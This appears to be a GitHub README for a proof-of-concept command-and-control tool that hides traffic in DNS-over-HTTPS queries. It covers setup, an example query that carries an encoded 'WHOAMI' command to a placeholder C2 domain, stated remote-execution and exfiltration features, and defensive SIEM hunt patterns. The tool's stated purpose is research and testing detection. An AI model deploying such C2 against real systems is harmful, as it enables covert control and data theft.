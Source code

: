 # Dns-over-HTTPS-DOH
This project provides a proof-of-concept implementation of a Command and Control (C2) infrastructure using DNS over HTTPS (DoH). 
DoH C2 allows for covert communication between the C2 server and the infected client machines by leveraging  DNS queries
thereby making the traffic appear legitimate and harder to detect by traditional network monitoring tools.

# Testing and Limitations
This project is intended for educational purposes and authorized security research only. 
Bypassing antivirus software or other security measures is not within the scope of this project. 
It is designed for testing in controlled environments to demonstrate the feasibility and mechanics of using DoH for C2 communication **to test enterprise corporate forward proxy detection and improve any custom build signatures in SIEMs.**

# Architecture
![image](https://github.com/user-attachments/assets/e0e0c705-e5a2-4934-b265-f70e39ca668b)  

From the above picture the python program on the client side (PC) sends HTTPS request (TCP/443) to DoH Server e.g dns.google.com, to resolve a destination domain where the c2 is hosted e.g example.com.co    
An attacker can use the part which is between the** name and &** in the url to inject txt record  not bigger than 512 bytes of size.  Example: https[:]//dns.google.com/resolve?name**=SINGLE-1-K5EE6QKNJEFA====.send.example.com.co**&type=TXT  
1. '**SINGLE-1-K5EE6QKNJEFA====**' is base32 encoded query (K5EE6QKNJEFA====  is basically WHOAMI
)  
2.send.example.com.co => the DNS c2 server.  
  
The dns.google.com is instructed to query send.example.com.co DNS server for the TXT record.  
The DNS server send.example.com.co which is controlled back by us, returns back txt record in which there are instructions what the client (PC) needs to perform/execute.


# Features
**Covert Communication**: Utilizes DoH to encode and disguise C2 traffic.

**Command Execution**: Supports remote execution of commands on infected Linux clients.

**Data Exfiltration**: Allows for exfiltration of data through DOH queries.

**Server and Client Implementation**: Includes both C2 server and client components.  

Only google DoH is used.  

# Scenario 1 - Using Public DoH Server
![image](https://github.com/user-attachments/assets/d26b3309-d164-4344-8dcb-94c10e7e6291)

# Initial setup
For client side, linux is recommended but the code was tested on Windows 10 and seem to worked :)  
For server side linux.  

**1. Client Side**  
    Install Python >=3.8 from the official website or your package manager.  
     Install the requests library using pip:    
     **pip install requests**
**2. Server side** only Linux  
    Install the dnslib library using pip
    **pip install dnslib**  

**3. Register domain**  
Example purchasing domain using namecheap.com
![grafik](https://github.com/user-attachments/assets/26f16ed6-1a45-4b1c-8ddc-cac2287eba24)

Follow instructions on the screenshot bellow to setup the NameServer.
Replace the IP and domainname with your purchased domain and server Public IP
![grafik](https://github.com/user-attachments/assets/c9e9f4cf-ac77-4b31-b92d-7bfe28ed93e9)

# Usage
**1. Client side**  

Make sure to change the bellow in the "doh_client.py" to the domain registered in step 3.  

if __name__ == "__main__":
    domain_name = "send.examples.com.co"  # Replace after '**send**' with your domain
    execute_command_from_dns(domain_name)

      
python3 doh_client.py  
Example run 
![grafik](https://github.com/user-attachments/assets/ff8f6724-9985-4411-87f0-7435cad4ad7f)


**2. Server side**  

Make sure to change the IP in the "doh_server.py"  

class DNSDoHServer:
    def __init__(self, host='YOURIP', port=53): # Replace with Your public IP


Example run:
![grafik](https://github.com/user-attachments/assets/dec32aca-60b0-415a-a616-49c14a21906b)

Note instead of the  examples.com.co you should use your domain name  
Run: python3 doh_server.py


# Detection Tips for Scenario 1 - Public DOH
The detection tips are not covering the Antivirus/EDR/XDR part, but rather proxy/L7 firewalls and SIEMs.
1. In the proxy next generation firewall with Layer7 capability check if category=”DoH and DoT”, category=”DoH Services”, urlcategory=”DoH Services” exist. Based on you risk appetite one can choice to monitor or block it.  
2. Extend your SIEM or proxy/layer7 firewall, with https://github.com/mthcht/awesome-lists/blob/main/Lists/dns_over_https_servers_list.csv list. Important to note if the proxy/layer7 firewall is set to block those URLs one may cause business process interuption as some of them can be used in daily work.  
3. Hunt for the bellow URL paths in the SIEM  
    url="*/resolve?name=*"  
    url="*/resolve?*&name=*"  
    url="*/query?name=*type=TXT*"  
    url="*/dns-query?name=*"    
    url="*/dns-query?*&name=*"   
   you can also search for the http_content_type "application/dns-message", "application/dns-json" in your proxy logs to hunt for DoH communications.

# Scenario 2 - Using PRIVATE DoH Server TODO
